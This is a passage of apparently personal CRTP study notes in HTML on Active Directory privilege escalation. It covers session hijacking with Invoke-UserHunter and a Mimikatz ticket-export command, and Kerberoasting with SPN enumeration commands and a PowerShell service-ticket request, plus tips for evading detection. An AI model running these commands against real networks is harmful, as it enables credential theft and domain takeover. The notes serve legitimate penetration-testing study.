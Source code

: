 0<ul id="b12d74f9-34bb-48ba-aa66-c37980eaf277" class="bulleted-list"><li style="list-style-type:disc">note <code>badpwdcount</code> is typically low for service accounts</li></ul></li></ol><ol type="1" id="ddb86fb1-06e4-4936-bd04-f064ac847c89" class="numbered-list" start="4"><li>User’s <code>logoncount</code> is 0 or few</li></ol><ol type="1" id="5882317a-361c-41bd-abd0-5f4edae584b5" class="numbered-list" start="5"><li><code>lastLogon</code> or <code>lastlogontimestamp</code> was from a long time ago</li></ol><ol type="1" id="0473fa82-6b63-4811-902e-3fec2c6d991f" class="numbered-list" start="6"><li><code>objectSID</code> is different than the domain’s</li></ol><ol type="1" id="02bdd46d-0389-4c34-b4d1-635d6902fbb6" class="numbered-list" start="7"><li><code>whenCreated</code> is default or very new or old</li></ol><h1 id="79e5501a-9162-4b00-b8d0-1d68cf9c6ac2" class="">Domain Privilege Escalation</h1><p id="d192387d-5e64-4347-ab1f-c82e0dd0147a" class="">⭐ Keep your eyes on the goals of your operation, and avoid getting DA privileges if it is not required. This will greatly help in avoiding detection.</p><h2 id="fb2e6a25-75a6-48bf-bc25-ecc1995abc92" class="">Session Hijack</h2><ul id="f805644f-a52b-423e-bf0c-9d52073272ab" class="bulleted-list"><li style="list-style-type:disc">if user has active session in workstation where you have local admin, you can obtain their TGT (even if they are a domain admin)<ul id="a4b233b4-3435-4073-9925-5276fca78498" class="bulleted-list"><li style="list-style-type:circle">can be found with <code>Invoke-UserHunter -GroupName &quot;&lt;GROUP_NAME&gt;&quot;</code><ul id="ed7a3c77-33cc-4e88-9804-d7abbcd73ff2" class="bulleted-list"><li style="list-style-type:square">add the <code>-CheckAccess</code> parameter to check if you have local admin access</li></ul></li></ul><ul id="4ab8f06c-afca-4468-8bf2-929d178f440e" class="bulleted-list"><li style="list-style-type:circle">works by using <code>Get-NetGroupMember</code> and <code>Get-NetSession</code></li></ul></li></ul><ul id="56743d28-3f7c-4d6f-b1ae-ee1021d4173b" class="bulleted-list"><li style="list-style-type:disc">you can then extract the user’s TGT with <code>Invoke-Mimikatz –Command &#x27;&quot;sekurlsa::tickets /export/ex&quot;’</code></li></ul><h2 id="d478ea34-93a6-4422-b144-0cc8ef722de8" class="">Kerberoast</h2><ul id="695892f8-26f7-4d20-b9c5-c47d580036b2" class="bulleted-list"><li style="list-style-type:disc">effective as service accounts are often ignored and passwords are rarely changed<ul id="9f7e9645-da15-408a-a989-c1a6783686e3" class="bulleted-list"><li style="list-style-type:circle">note machine accounts have 120 character passwords</li></ul><ul id="9368c54a-dc2e-4ee0-a07d-4947c9cd13d6" class="bulleted-list"><li style="list-style-type:circle">kerberoast is only effective against users who are being used as service accounts<ul id="3eafcf14-3b4b-4446-824f-952d493e2a5f" class="bulleted-list"><li style="list-style-type:square">can be found with <code>Get-NetUser -SPN</code> or <code>Get-ADUser -Filter {ServicePrincipalName -ne &quot;$null&quot;} -Properties ServicePrincipalName</code> </li></ul></li></ul></li></ul><ul id="bda59285-f2f2-4539-bf07-53fefa70dda9" class="bulleted-list"><li style="list-style-type:disc">service accounts typically have privileged access</li></ul><figure id="d08cc687-5f0c-4e5d-ae2f-ab4cdd9287ba" class="image"><a href="../../images/CRTP%20Notes%207c65562269c14f0ba54f9df255f72aa4/Untitled%205.png"><img style="width:1153px" src="../../images/CRTP%20Notes%207c65562269c14f0ba54f9df255f72aa4/Untitled%205.png"/></a></figure><ul id="a286dba1-7a24-4ecd-9294-1684f2b71863" class="bulleted-list"><li style="list-style-type:disc">in step four, the TGS is saved to disc</li></ul><ul id="99b38ee1-78d7-48af-ad06-7de923cb75b3" class="bulleted-list"><li style="list-style-type:disc">because TGS encrypted with service account hash, you can try to perform an offline password attack</li></ul><ul id="8110f527-161d-475e-bad9-e01b931ea297" class="bulleted-list"><li style="list-style-type:disc">quiet as only one event (4769) is logged </li></ul><ul id="2d0cb496-2fcd-4b81-8408-247496f79324" class="bulleted-list"><li style="list-style-type:disc">if successful, you can perform a silver ticket attack</li></ul><p id="381d6ef9-d4ec-401d-bcb9-b091f7f40215" class=""><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong>Exploitation</strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></p><pre id="c0009abb-d1fc-4533-987d-dba87eaa6838" class="code"><code># Obtain TGS
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList &quot;&lt;SERVICE&gt;/follow.0xd4y_notes.local&quot;

### Check TGS was granted with klist

# Save TGS to disk: